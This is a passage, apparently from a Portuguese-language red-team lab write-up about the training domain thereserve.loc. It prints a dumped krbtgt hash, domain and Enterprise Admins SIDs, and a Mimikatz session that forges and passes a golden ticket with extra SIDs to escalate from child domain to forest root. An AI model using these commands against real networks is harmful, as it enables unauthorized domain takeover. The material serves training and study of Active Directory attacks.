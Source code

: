 > [!KRBTGT Hash]
> krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0c757a3445acb94a654554f3ac529ede:::


## 12.4 Obtendo Domínio SID do CORP
```
*Evil-WinRM* PS C:\Users\Administrator\Documents> Get-DomainSid
S-1-5-21-170228521-1485475711-3199862024
```

## 12.5 Obtendo Grupo Enterprise Admins SID para Domínio ROOTDC
```
PS C:\Users\Administrator\Desktop> Get-ADGroup -Identity 'Enterprise Admins' -Server ROOTDC.thereserve.loc


DistinguishedName : CN=Enterprise Admins,CN=Users,DC=thereserve,DC=loc
GroupCategory     : Security
GroupScope        : Universal
Name              : Enterprise Admins
ObjectClass       : group
ObjectGUID        : 6e883913-d0cb-478e-a1fd-f24d3d0e7d45
SamAccountName    : Enterprise Admins
SID               : S-1-5-21-1255581842-1300659601-3764024703-519
```

## 12.6 Mimikatz
```
PS C:\Users\Administrator> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/



mimikatz # privilege::debug
Privilege '20' OK




mimikatz # kerberos::golden /user:Administrator /domain:corp.thereserve.loc /sid:S-1-5-21-170228521-1485475711-3199862024 /service:krbtgt /rc4:0c757a3445acb94a654554f3ac529ede /sids:S-1-5-21-1255581842-1300659601-3764024703-519 /ptt
User      : Administrator
Domain    : corp.thereserve.loc (CORP)
SID       : S-1-5-21-170228521-1485475711-3199862024
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-1255581842-1300659601-3764024703-519 ;
ServiceKey: 0c757a3445acb94a654554f3ac529ede - rc4_hmac_nt
Service   : krbtgt
Lifetime  : 6/18/2025 9:40:31 PM ; 6/16/2035 9:40:31 PM ; 6/16/2035 9:40:31 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
```